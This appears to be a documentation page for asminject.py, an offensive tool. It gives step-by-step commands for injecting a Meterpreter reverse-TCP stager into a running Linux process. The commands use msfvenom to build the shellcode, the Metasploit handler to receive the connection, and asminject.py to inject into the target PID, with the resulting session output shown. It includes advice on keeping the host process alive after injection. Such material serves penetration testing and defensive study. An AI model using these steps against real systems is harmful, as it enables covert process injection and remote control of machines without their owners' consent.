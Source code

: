 # asminject.py examples - Shellcode/stager injection

<a href="../README.md">[ Back to the main README.md ]</a>

* [Background](#background)
* [Important](#important)
* [Shellcode injection with multithreading](#shellcode-injection-with-multithreading)
* [Shellcode injection without multithreading](#shellcode-injection-without-multithreading)

## Background

Sometimes one's goal is easiest to achieve by injecting pre-existing shellcode (or a C2 stager) directly into process memory. This set of examples covers how to do that using `asminject.py`.

## Important

Regardless of the binary code you want to inject, in most cases you should avoid causing it to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and the [Metasploit Framework](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## Shellcode injection with multithreading

The `execute_precompiled-threaded.s` payload is the preferred option for injecting shellcode or similar into an existing process using `asminject.py`. It launches the code in a separate thread, so the target process will continue executing normally after injection. This example uses that payload to launch a Meterpreter agent via an injected stager.

Launch a harmless process that simulates one with access to super-secret, sensitive data:

```
$ sudo python3 practice/python_loop.py

2022-05-12T20:11:30.614271 - Loop count 0
2022-05-12T20:11:35.616574 - Loop count 1
2022-05-12T20:11:40.620506 - Loop count 2
```

In a separate terminal, generate a Meterpreter payload, then launch a listener.

Note: in this example, the `linux/x64/meterpreter/reverse_tcp` payload is specified because the corresponding `asminject.py` example below is using the `x86-64` architecture. For `x86`, you'd want to use `linux/x86/meterpreter/reverse_tcp`, and for `arm32`, you'd want to use `linux/armle/meterpreter/reverse_tcp`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f raw \
   -o lmrt11443 LHOST=127.0.0.1 LPORT=11443

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Saved as: lmrt11443

# msfconsole

...omitted for brevity...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 11443
LPORT => 11443
msf6 exploit(multi/handler) > exploit


[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:11443 
```

In a third terminal, locate the process and inject the Meterpreter payload into it. Note the use of the `--precompiled` option to specify the `lmrt11443` shellcode.

```
# ps auxww | grep python3

root     2144475  [...] sudo python3 practice/python_loop.py
root     2144476  [...] python3 practice/python_loop.py

# python3 ./asminject.py 2144476 execute_precompiled-threaded.s \
   --relative-offsets-from-binaries \
   --precompiled lmrt11443

...omitted for brevity...
```

You should see the following pop up in the third terminal:

```
[*] Sending stage (3008420 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:11443 -> 127.0.0.1:53682) at 2021-06-07 14:44:14 -0700

meterpreter > sysinfo
Computer     : 192.168.218.135
OS           : Debian  (Linux 5.10.0-kali3-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

## Shellcode injection without  multithreading

The `execute_precompiled.s` payload is identical to the `execute_precompiled-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` (or any other library) is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 2144476 execute_precompiled.s \
   --precompiled lmrt11443
```

Unless the shellcode is written specifically to return, this payload will never inform `asminject.py` that it is finished, so you'll need to Ctrl-C out of `asminject.py` after injection is successful.